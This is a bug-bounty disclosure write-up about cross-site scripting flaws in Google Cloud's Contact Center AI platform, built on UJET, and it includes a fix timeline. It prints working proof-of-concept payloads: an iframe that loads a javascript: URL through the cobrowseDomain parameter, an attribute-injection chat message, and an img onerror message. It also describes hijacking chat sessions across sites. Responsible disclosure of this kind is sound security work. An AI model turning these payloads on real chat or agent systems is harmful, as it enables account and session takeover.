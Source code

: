 ```yaml
---
title: CCAI
---
```


[Contact Center AI (CCAI)](https://cloud.google.com/solutions/contact-center-ai-platform) is a Contact Center as a Service platform from Google Cloud based of [UJET](https://ujet.cx/)   
The following was done as part of a [VRP grant](https://www.google.com/about/appsecurity/research-grants/) of $500, later increased by $1337

# Agent XSS
On the agents control panel there was an iframe with the location controlled by the URL parameter ```cobrowseDomain```,
So you could get an XSS by navigating it to a ```javascript:``` URL... also no embedding protection.
```js
let f = document.createElement('iframe');
f.hidden = true;
f.src = 'https://something.uc1.ccaiplatform.com/agent/?type=popup&popup=cobrowse&cobrowseDomain=javascript:alert(window.origin);%2F%2F';
document.body.appendChild(f);
```

# Client XSS
Using the chat message feature of Cloud Contact Center an agent could XSS the user on https://websdk.ujet.co by messaging ```https://"onmousemove="alert(window.origin)"```  
This could also be done by setting a custom "Waiting for Agent Assignment Message" like ```<img src=x onerror=alert(window.origin)>```  
Because the [SDK](https://cloud.google.com/contact-center/ccai-platform/docs/Guide/publication--en?hl=en) used a shared origin of ```https://websdk.ujet.co``` to render all chat sessions from Cloud Contact Center,  
Any website with there own chat could hijack a different websites chat session via the window opener.  
The origin was also trusted by [Cobrowse](https://cobrowse.io/) which is a feature of the SDK.

# Timeline
Reported agent xss on Nov 10, 2022 02:13AM (P2/S2)  
Marked as fixed on Jan 19, 2023 02:00AM  
Reported client xss on Nov 14, 2022 12:25PM (P2/S2)  
Blamed UJET on Nov 14, 2022 03:30PM  
Marked as fixed on Mar 10, 2023 07:10AM  
// TODO: Add VRP reward amounts (if exists)
